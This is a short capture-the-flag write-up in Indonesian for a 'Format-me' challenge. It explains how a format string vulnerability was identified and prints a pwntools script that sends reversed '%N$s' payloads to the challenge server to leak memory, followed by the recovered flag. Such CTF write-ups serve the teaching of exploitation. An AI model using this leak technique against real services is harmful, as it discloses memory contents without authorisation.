

Sedikit lebih menantang karena cuma disediakan port netcatnya, tanpa ada attachment. Ketika dijalankan program meminta input dan menampilkan char dengan posisi terbalik dari input char. Dari nama soal 'Format-me' saya mengasumsikan terdapat vuln format string. coba mengirim payload '%.x' ternyata muncul sesuatu yang aneh. Karena tidak terdapat banyak clue saya mencoba membrute semua character sebagai payload dan langsung melakukan leak pada stringnya. Pada awalnya sedikit bermasalah karena nihil hasil karena payload lupa belum di reverse, sekarang kita kirimkan payloadnya dengan di reverse dan begini kurang lebih payloadnya

    from pwn import *
    r = remote("challs.dvc.tf", 8888)
    for i in range(3,200):
        try:
            payload = "%"+str(i)+"$s"
            r.recvuntil(":")
            r.sendline(payload[::-1])
            r.recvuntil("Result: \n")
            print(i,r.recvline())
        except Exception as e:
            r = remote("challs.dvc.tf", 8888)
            continue

Dan didapatkan flagnya.

    Flag = dvCTF{1_h0p3_n01_s33s_th1s}